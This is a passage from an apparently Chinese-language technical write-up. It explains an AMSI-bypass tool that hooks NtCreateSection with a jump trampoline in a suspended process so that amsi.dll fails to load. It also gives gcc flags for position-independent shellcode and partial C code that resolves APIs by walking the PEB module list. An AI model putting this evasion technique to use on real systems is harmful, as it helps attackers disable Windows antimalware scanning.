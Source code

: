 ```
                            ↓
┌─────────────────────────────────────────────────────────────────┐
│ 7. 安装 hook trampoline                                         │
│    构造 JMP 指令：                                              │
│      mov r10, <shellcode_addr>  ; 49 BA <8 bytes>               │
│      jmp r10                    ; 41 FF E2                      │
│    写入到 NtCreateSection 开头                                  │
└─────────────────────────────────────────────────────────────────┘
                            ↓
┌─────────────────────────────────────────────────────────────────┐
│ 8. 恢复进程执行                                                 │
│    ResumeThread(...)                                            │
└─────────────────────────────────────────────────────────────────┘
                            ↓
┌─────────────────────────────────────────────────────────────────┐
│ 9. Hook 触发                                                    │
│    当进程尝试加载 DLL 时：                                      │
│    - 调用 NtCreateSection                                       │
│    - 触发 hook，跳转到我们的 shellcode                          │
│    - Shellcode 获取文件路径                                     │
│    - 检查是否是目标 DLL（如 amsi.dll）                          │
│    - 如果是，返回错误状态码（0xC0000054）                       │
│    - 如果不是，调用原始 NtCreateSection（使用保存的 24 字节）  │
└─────────────────────────────────────────────────────────────────┘
```

## 关键技术细节

### 1. PIC (Position Independent Code)

Hook shellcode 必须是 PIC，因为：
- 我们无法预知 shellcode 会被加载到哪个地址
- 不能包含硬编码的地址或全局变量引用
- 不能依赖 CRT（C Runtime）库

**PIC 编译要求**：
```bash
gcc -nostdlib        # 不链接标准库
    -fno-ident       # 不生成标识字符串
    -O2              # 优化（减小代码体积）
    -ffunction-sections  # 每个函数独立 section
    -fno-asynchronous-unwind-tables  # 不生成异常处理表
```

### 2. API 动态解析

由于是 PIC 代码，无法直接调用 Windows API。必须通过以下方式动态解析：

**通过 PEB 遍历模块**：
```c
// 1. 获取 PEB (Process Environment Block)
PPEB peb = (PPEB)__readgsqword(0x60);  // x64: GS:[0x60]

// 2. 获取 Ldr (加载器数据)
PMY_PEB_LDR_DATA ldr = (PMY_PEB_LDR_DATA)peb->Ldr;

// 3. 遍历 InLoadOrderModuleList
PLIST_ENTRY listHead = &ldr->InLoadOrderModuleList;
PLIST_ENTRY listEntry = listHead->Flink;

while (listEntry != listHead) {
    PMY_LDR_DATA_TABLE_ENTRY entry = CONTAINING_RECORD(...);
    // 比较模块名哈希
    if (hash == moduleHash) {
```